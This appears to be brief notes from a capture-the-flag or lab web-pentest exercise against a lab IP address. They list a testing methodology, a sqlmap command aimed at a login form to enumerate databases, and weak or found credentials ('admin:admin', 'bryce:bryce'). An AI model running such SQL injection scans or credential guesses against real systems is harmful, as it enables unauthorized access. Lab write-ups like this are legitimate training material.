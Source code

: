#BASIC INFO
```
export IP=10.10.255.243

```

#ESTABLISHING A METHODOLOGY

>1.	Authorization
>1.	Authentication
>1.	Injection
>1.	Client Side Controls
>1.	Application Logic

#AUTHENTICATION

##WEAK CREADENTIALS

>**admin : admin**

```
/usr/bin/sqlmap -u http://10.10.255.243/users/login.php --method POST --data username=FUZZ&password=FUZZ -p username --dbs --dbms mysql --regexp "username/password combination" --level 2

```

##FOUND CREDENTIALS

> **bryce : bryce**